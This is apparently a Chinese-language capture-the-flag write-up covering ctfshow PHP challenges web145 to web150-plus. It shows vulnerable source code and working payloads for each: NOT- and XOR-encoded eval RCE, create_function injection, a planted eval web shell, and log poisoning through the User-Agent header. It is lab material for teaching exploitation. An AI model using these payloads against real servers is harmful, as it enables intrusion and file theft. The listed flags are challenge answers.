?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|
```



```
ctfshow{0eaf0993-d762-4b4e-bf15-d6df22e66eeb}
```

也可以用3目运算符

```
?v1=1&v2=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)：
```


### web146

#### 取反绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

```
新增过滤冒号，用或 | 即可，payload：

?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|
```



```
ctfshow{34e73fc7-8bee-493c-958b-0a6f0b86a2ca}
```


### web147

#### create_function 

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/


highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

- `/^[a-z0-9_]*$/`：匹配只包含小写字母、数字和下划线的字符串。
- `isD`：`i` 表示不区分大小写，`s` 表示允许 `.` 匹配换行符，`D` 表示匹配模式的结束符 `$` 只能匹配字符串的结尾。



先构造

create_function 存在注入风险，我们这里先闭合前面的 { ，再注释后面的 } // 把多余的 } 注释掉，语法不出错。

```
GET：?show=}system('ls');//

POST：ctf=\create_function
```



```
?show=}system('tac flag.php');//

ctf=\create_function
```



```
ctfshow{6875a907-3db7-4734-b297-daf7ce9a9e11}
```


### web148

#### 异或绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/


include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

 没有过滤异或，无参数rce

和之前差不多

```
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0c%0c"^"%60%7f");
```





```
?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%0c%01%07%01%0b%08%0b"^"%7d%60%60%21%60%60%60%60%2f%7b%60%7b");
```



```
ctfshow{b6a29daf-bd44-4cd9-829e-eacba09ac11a}
```


### web149

#### 文件写入

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 04:34:40

*/


error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

```
file_put_contents($_GET['ctf'], $_POST['show']);
```

将post的东西加到get里面

```
$files = scandir('./');
这行代码读取当前目录（.）下的所有文件和目录，并将它们作为数组存储在变量$files中。

foreach循环遍历$files数组中的每个文件

if ($file !== "index.php") { 检查文件名是不是index.php,不是就删除

file_put_contents($_GET['ctf'], $_POST['show']);
这行代码尝试将$_POST['show']的内容写入到$_GET['ctf']指定的文件路径。
```

$file !== "index.php"将不是index.php的文文件删除，所以我门可以直接写入到index.php中。

```
GET: ?ctf=index.php
POST: show=<?php eval($_POST[1])?>
```

先将这个写入，然后访问传参

```
/index.php
post
1=system('ls /');
```




然后读取一下

```
1=system('tac /ctfshow_fl0g_here.txt');
```




```
ctfshow{260b9f65-8fd7-485c-a247-f6437cb38fe3}
```


### wbe150

#### 直接文件包含

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}

```

如果 `$isVIP` 为真且 `$ctf` 中不包含冒号（`:`）日志文件包含 

```
get:?isVIP=1
post:ctf=/var/log/nginx/access.log
```

User-Agent：

```
<?php system('ls');?>
```






```
<?php system('tac flag.php');?>
```



```
ctfshow{b1f2f149-fba1-4732-bb53-829af01b7f4d}
```


### web150-plus

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}

```

新增对 $ctf 过滤 log，日志包含行不通。

payload：

```php
?..CTFSHOW..=phpinfo
```

发现可以调用出phpinfo（）



解析变量

```js
 ..CTFSHOW.. 会解析成 __CTFSHOW__ ，因为非法的字符会转成下划线，然后进行了变量覆盖，__CTFSHOW__ 变量被设置为 phpinfo，if(class_exists($__CTFSHOW__)) 会检查 __CTFSHOW__ 是否是一个已定义的类，在这种情况下，$__CTFSHOW__ 被设置为 phpinfo，所以 if(class_exists('phpinfo')) 会被执行，因为 phpinfo 不是一个类名，class_exists 返回 false，当代码试图访问一个未定义的类（ __CTFSHOW__）时，PHP 会调用 __autoload 函数，__autoload('phpinfo'); 会执行 phpinfo() 函数，因为 phpinfo 是一个内置函数。
```


